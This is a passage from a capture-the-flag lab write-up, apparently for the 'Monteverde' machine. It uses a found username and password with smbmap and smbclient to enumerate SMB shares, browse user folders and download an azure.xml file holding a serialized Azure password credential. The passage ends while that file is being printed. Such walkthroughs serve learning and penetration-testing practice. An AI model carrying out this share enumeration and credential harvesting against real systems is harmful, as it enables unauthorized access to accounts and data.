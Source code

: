 ```
smbmap -u SABatchJobs -p 'SABatchJobs' -H 10.10.10.172

[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.172...
[+] IP: 10.10.10.172:445        Name: monteverde.htb
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        azure_uploads                                           READ ONLY
        C$                                                      NO ACCESS
        E$                                                      NO ACCESS
        IPC$                                                    READ ONLY
        NETLOGON                                                READ ONLY
        SYSVOL                                                  READ ONLY
        users$                                                  READ ONLY
```
we've read access on `azure_uploads` and `users$` shares . let look at them and see if we can find any sensitive info which is useful for us. we'll use `smbclient` to look into each share. `azure_uploads` share is empty so we'll ignore that.

```
smbclient -U 'SABatchJobs' //10.10.10.172/users$

Enter WORKGROUP\SABatchJobs's password: 
Try "help" to get a list of possible commands.
smb: \> recurse
smb: \> ls
  .                                   D        0  Fri Jan  3 18:42:48 2020
  ..                                  D        0  Fri Jan  3 18:42:48 2020
  dgalanos                            D        0  Fri Jan  3 18:42:30 2020
  mhope                               D        0  Fri Jan  3 19:11:18 2020
  roleary                             D        0  Fri Jan  3 18:40:30 2020
  smorgan                             D        0  Fri Jan  3 18:40:24 2020

\dgalanos
  .                                   D        0  Fri Jan  3 18:42:30 2020
  ..                                  D        0  Fri Jan  3 18:42:30 2020

\mhope
  .                                   D        0  Fri Jan  3 19:11:18 2020
  ..                                  D        0  Fri Jan  3 19:11:18 2020
  azure.xml                          AR     1212  Fri Jan  3 19:10:23 2020

\roleary
  .                                   D        0  Fri Jan  3 18:40:30 2020
  ..                                  D        0  Fri Jan  3 18:40:30 2020

\smorgan
  .                                   D        0  Fri Jan  3 18:40:24 2020
  ..                                  D        0  Fri Jan  3 18:40:24 2020

                524031 blocks of size 4096. 519955 blocks available
smb: \mhope\> get azure.xml
getting file \mhope\azure.xml of size 1212 as azure.xml (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
```
```
cat azure.xml

<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
```